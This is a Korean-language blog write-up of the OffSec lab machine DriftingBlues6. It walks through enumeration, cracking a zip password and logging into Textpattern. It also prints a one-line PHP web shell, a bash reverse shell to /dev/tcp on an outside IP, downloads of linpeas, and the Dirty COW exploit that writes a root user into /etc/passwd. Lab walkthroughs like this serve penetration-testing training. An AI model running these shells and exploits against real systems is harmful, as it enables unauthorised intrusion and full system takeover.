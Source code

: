 ```yaml
---
title: "DriftingBlues6 Writeup"
date: 2025-09-07T00:00:00+09:00
# weight: 1
# aliases: ["/first"]
tags: ["pen-testing", "hacking"]
author: "Me"
categories: ["Penetration Testing"]
# author: ["Me", "You"] # multiple authors

showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: true
description: "Offsec PGP lab DriftingBlues6 Writeup"
# canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "posts/cover/offsec.png" # image path/url
    alt: "cover-image"

editPost:
    URL: "https://github.com/hynseok/blog/blob/main/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


> target ip: 192.168.224.219

## Enumeration
### Nmap

command
``` shell
sudo nmap -T4 -p- target
```

result
``` shell
Host is up (0.10s latency).
Not shown: 65504 closed tcp ports (reset), 30 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```
* 80번 포트만 열려있는 것을 확인할 수 있었습니다.

### Gobuster

command
``` shell
gobuster dir -u http://target -w /usr/share/wordlists/dirb/common.txt -z
```

result
``` shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 283]
/.htaccess            (Status: 403) [Size: 283]
/cgi-bin/             (Status: 403) [Size: 282]
/db                   (Status: 200) [Size: 53656]
/index                (Status: 200) [Size: 750]
/index.html           (Status: 200) [Size: 750]
/robots               (Status: 200) [Size: 110]
/robots.txt           (Status: 200) [Size: 110]
/server-status        (Status: 403) [Size: 287]
/textpattern          (Status: 301) [Size: 306] [--> http://target/textpattern/]
===============================================================
Finished
===============================================================
```

```txt
User-agent: *
Disallow: /textpattern/textpattern

dont forget to add .zip extension to your dir-brute
;)

```
- robots.txt에서 `.zip` extension을 포함하라는 팁이 있었습니다.

command
```shell
gobuster dir -u http://target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .zip -t 50
```

result
``` shell
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 750]
/db                   (Status: 200) [Size: 53656]
/robots               (Status: 200) [Size: 110]
/spammer              (Status: 200) [Size: 179]
/spammer.zip          (Status: 200) [Size: 179]
Progress: 108079 / 441122 (24.50%)^C

```
- `spammer.zip` 을 찾을 수 있었습니다.
## Exploitation
### fcrackzip
```shell
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt spammer.zip
```
- fcrackzip을 통해 zip 파일을 크래킹합니다.

``` shell
PASSWORD FOUND!!!!: pw == myspace4

unzip spammer.zip
Password: myspace4
```

``` shell
cat creds.txt
mayer:lionheart
```

`http://target/textpattern/textpattern` 으로 접속하여 위 계정 정보로 로그인을 합니다.

### Textpattern RCE Vulnerability
[Textpattern 4.8.8 - Remote Code Execution (RCE) (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/51176)

![db6-img1.png](images/db6/db6-img1.png)

```php
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>
```
- 위 RCE 파일을 업로드하고,
- `http://target/textpattern/files/rce.php?cmd=CMD`로 요청을 하여 arbitrary command를 실행할 수 있습니다.

```shell
nc -nvlp 4444

curl http://target/textpattern/files/rce.php?cmd='bash%20-c%20%27bash%20-i%20>%26%20%2Fdev%2Ftcp%2F192.168.45.185%2F4444%200>%261%27'
```

## Privilege Escalation

``` shell
python -c 'import pty; pty.spawn("/bin/bash")'
```
- 새로운 bash 세션을 얻어냅니다.

### linpeas
```shell
wget --no-check-certificate https://github.com/peass-ng/PEASS-ng/releases/download/20250904-4f33e9d0/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```

result
``` shell
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: [ debian=7|8 ],RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: [ debian=7|8 ],RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

```
- dirtycow 공격이 가능한 것으로 확인됐습니다.

### DirtyCOW
[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) - Linux local Exploit](https://www.exploit-db.com/exploits/40839)
``` shell
wget --no-check-certificate https://www.exploit-db.com/download/40839
```

```shell
gcc -pthread 40839.c -o dirty -lcrypt
./dirty
```

```shell
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash
```

```
su firefart
```
- firefart 계정으로 로그인하여 루트 권한을 획득할 수 있습니다.
